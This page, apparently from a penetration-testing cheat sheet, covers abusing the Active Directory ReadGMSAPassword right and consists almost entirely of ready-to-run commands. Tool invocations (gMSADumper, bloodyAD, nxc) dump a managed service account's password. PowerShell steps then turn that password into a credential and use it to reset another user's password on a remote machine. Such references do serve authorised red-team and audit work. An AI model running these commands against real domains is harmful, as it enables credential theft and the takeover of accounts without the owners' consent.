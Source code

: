 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["ReadGMSAPassword", "gMSADumper", "active driectory", "ad", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <TARGET> -d <DOMAIN>
```

</div>

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <TARGET> --gmsa
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>
